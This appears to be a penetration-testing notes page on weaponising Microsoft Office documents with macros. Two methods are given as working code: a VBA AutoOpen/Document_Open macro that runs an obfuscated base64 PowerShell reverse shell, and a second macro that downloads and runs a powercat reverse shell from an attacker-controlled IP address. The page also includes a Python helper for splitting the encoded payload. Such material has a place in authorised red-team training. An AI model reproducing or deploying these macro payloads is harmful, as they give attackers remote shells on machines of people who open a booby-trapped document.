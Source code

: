 ```yaml
---
description: >-
  Credit:
  https://cel1s0.gitbook.io/offsec-notes/readme/windows/office-macro/microsoft-office
---
```


# Microsoft Office

## Method 1



Choose VIEW ribbon and selecting Macros option. We type name for the macro and in the MACROS in drop-down menu, select the name of document, then the macro will be add. When we click create, a simple macro framework will be add into our document. We have to save the document as either .docm or the older .doc format. They support embedded macros, .docx format does not.

{% embed url="https://www.revshells.com/" %}

![](<../../../.gitbook/assets/image (10) (1).png>)

We have to edit the payload. We change related part of payload variable.&#x20;

```python
#!/usr/bin/python

payload = "powershell.exe -nop -w hidden -e JABjAGwAaQBlAG4Ad..."

n=50

for i in range(0, len(payload), n):
	print "Str = Str + " + '"' + payload[i:i+n] + '"'
```

```vba
Sub AutoOpen()
    Evil
End Sub

Sub Document_Open()
    Evil
End Sub

Sub Evil()
    Dim Str As String
    Str = Str + "powershell.exe -nop -w hidden -e JABjAGwAaQBlAG4Ad"
    Str = Str + "AAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdAB"
    Str = Str + "lAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDA"
    Str = Str + "GwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEALgAxACI"
    Str = Str + "ALAA4ADAAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAa"
    Str = Str + "QBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB"
    Str = Str + "5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2A"
    Str = Str + "DUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGk"
    Str = Str + "AIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAe"
    Str = Str + "QB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgB"
    Str = Str + "nAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhA"
    Str = Str + "CAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHA"
    Str = Str + "AZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQ"
    Str = Str + "QBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB"
    Str = Str + "0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApA"
    Str = Str + "DsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQ"
    Str = Str + "AZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAc"
    Str = Str + "gBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQA"
    Str = Str + "gACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgA"
    Str = Str + "CsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACI"
    Str = Str + "AOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAd"
    Str = Str + "AAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQA"
    Str = Str + "uAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrA"
    Str = Str + "DIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHM"
    Str = Str + "AZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZ"
    Str = Str + "QAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgB"
    Str = Str + "sAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvA"
    Str = Str + "HMAZQAoACkA"
    CreateObject("Wscript.Shell").Run Str
End Sub
```

## Method 2

{% embed url="https://medium.com/@minix9800/ms-word-macros-with-powercat-reverse-shell-58b20983e0f0" %}

```python
LHOST=192.168.119.169
LPORT=443
pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > revshell.txt
```

You should have an encoded payload.

Now

1. Create a document
2. Go to view and macros
3. Make a name for your macro and make sure it's used for this specific document that you will be using. Now click `Create`

Now copy and paste this into the VBA editor

```vba
Sub AutoOpen()
MyMacro
End Sub
Sub Document_Open()
MyMacro
End Sub
Sub MyMacro()
Dim Str As String
Str = "powershell -c ""$code=(New-Object System.Net.Webclient).DownloadString('http://192.168.119.169/revshell.txt'); iex 'powershell -E $code'"""
CreateObject("Wscript.Shell").Run Str
End Sub
```
